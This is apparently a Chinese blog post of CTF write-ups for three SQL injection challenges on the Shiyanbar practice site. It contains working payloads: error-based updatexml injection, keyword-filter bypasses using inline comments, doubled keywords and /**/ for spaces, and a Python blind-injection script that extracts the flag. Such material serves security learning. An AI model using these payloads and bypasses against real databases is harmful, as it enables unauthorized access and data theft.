 ```yaml
---
title: 实验吧 web writeup
date: 2018-04-18 19:03:31
tags:
---
```

本篇博客连续更新实验吧的web篇解题思路。
<!--more -->


# 简单的SQL注入

在ID框 输入1，有返回信息。

	ID: 1
	name: baloteli

输入 `'`，报错。

	You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''''' at line 1

然后输入所有关键字信息，看到底过滤了什么。

```
1 and or union select from where = information_schema table_name table_schema column_name order by information_schema.tables --+ /**/ // # %00
```

得到信息：

	ID: 1 or   = information_schema table_name information_schema.tables    /**/ //

看来屏蔽了不少关键字。

对于过滤，可以考虑 `内联注释`、`双重关键字` 、 `大小写混用` 、 `编码` 。

`大小写混用` 不好使。


这里尝试注入 `1' or '1'='1`，得到正常信息，怀疑sql语句为：
```
select * from xx where id='xxx'
```

## 采用 `报错注入` + `内联注释` 方式。

### 内联注释

采用 `/*! code */` 来执行我们的SQL语句。


比如一个过滤器过滤了：
```
union,where, table_name, table_schema, =, and information_schema
```

这些都是我们内联注释需要绕过的目标。所以通常利用内联注释进行如下方式绕过：
```
id=1/*!UnIoN*/+SeLeCT+1,2,concat(/*!table_name*/)+FrOM /*information_schema*/.tables /*!WHERE */+/*!TaBlE_ScHeMa*/+like+database()-- -
```

这里我们需要的语句是
```
1' or updatexml(1,concat('~',(select database() LIMIT 0,1),'~'),3) or '1'='1  
```

```
1' or updatexml(1,concat('~',(/*!select*/ database() LIMIT 0,1),'~'),3) or '1'='1  
```

得到反馈信息：

	XPATH syntax error: '~web1~'


查表名字：

```
1'or updatexml(1,concat('~',(select table_name from information_schema.tables where table_schema='web1' LIMIT 0,1),'~'),3) or '1'='1 
```

```
1'or updatexml(1,concat('~',(/*!select*/  table_name  /*!from*/ information_schema.tables /*!where*/ /*!table_schema*/='web1' LIMIT 0,1),'~'),3) or '1'='1 
```

这里报错了！

	You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '='web1' limit 0,1),'~'),3) or '1'='1'' at line 1

明明在前面的验证中， `table_schema` 是被过滤的呀，添加了内联注释也不行？

在尝试了`1 /*!table_schema*/` 之后发现，果然被过滤掉了。

那采取 `双重关键字` 。 `table_schema` 换成 `table_schtable_schemaema`

输入 `1 table_schtable_schemaema` 得到 `>ID: 1  table_schema`。很好。

```
1'or updatexml(1,concat('~',(/*!select*/  table_name  /*!from*/ information_schema.tables /*!where*/ /*!table_schtable_schemaema*/='web1' LIMIT 0,1),'~'),3) or '1'='1 
```

拿到表格

	XPATH syntax error: '~flag~'

之后继续拿字段。
```
1'or updatexml(1,concat('~',(/*!select*/  column_name /*!from*/ information_schema.columns /*!where*/ table_name='flag' LIMIT 0,1),'~'),3) or '1'='1  
```

输入后，发现 `column_name` 、 `information_schema.columns` 都被过滤了，好奇怪。拿只好用 `双重关键字` 方法了。
```
1'or updatexml(1,concat('~',(/*!select*/  colucolumn_namemn_name  /*!from*/ infinformation_schema.columnsormation_schema.columns /*!where*/ table_name='flag' LIMIT 0,1),'~'),3) or '1'='1  
```

	XPATH syntax error: '~flag~'
得到表的字段：`flag`, `id`

直接获取 `flag`:

```
1'or updatexml(1,concat('~',(/*!select*/  flag  /*!from*/ flag LIMIT 0,1),'~'),3) or '1'='1
```

	XPATH syntax error: '~flag{Y0u_@r3_5O_dAmn_90Od}~'


## `双重关键字`

# 简单的SQL注入2

搞了半天就屏蔽了空格符号。那么把空格符替换掉就可以了。

```
1'/**/union/**/select/**/flag/**/from/**/flag/**/where/**/'1'%3d'1
```

	ID: 1'/**/union/**/select/**/flag/**/from/**/flag/**/where/**/'1'='1<br>name: baloteli</pre><pre>ID: 1'/**/union/**/select/**/flag/**/from/**/flag/**/where/**/'1'='1<br>name: flag{Y0u_@r3_5O_dAmn_90Od}


# 简单的SQL注入3


字符型注入

布尔型盲注

```
1' and (select count(*) from flag)>0--+
1' and (select ascii(substr(flag,1,1)) from flag limit 0,1)>97--+
```


```
import requests
import string

url="http://ctf5.shiyanbar.com/web/index_3.php?id=1' and (select length(flag) from flag limit 0,1)={0}--+"
url2="http://ctf5.shiyanbar.com/web/index_3.php?id=1' and (select ascii(substr(flag,{0},1)) from flag limit 0,1)={1}--+"
'''
i=0
while True:
        i+=1
        res=requests.get(url.format(i))
        if res.content.find("Hello!")!= -1:
                print "Found it, i=",i
                break
        print "Not found, i=",i

Found it, i= 26
'''
printable=string.printable
print "printable is ",printable
result=""
for i in range(26):
        print "Now i=",i+1
        for c in (printable):
                res=requests.get(url2.format(i+1, ord(c)))
                if res.content.find("Hello!")!= -1:
                        print "Found it, i=",i+1, "char is ", c
                        result+=c
                        break
print "result is " , result

```



# 参考
- [西普实验吧CTF解题Writeup大全](http://hebin.me/2017/09/01/%E8%A5%BF%E6%99%AE%E5%AE%9E%E9%AA%8C%E5%90%A7ctf%E8%A7%A3%E9%A2%98writeup%E5%A4%A7%E5%85%A8/)
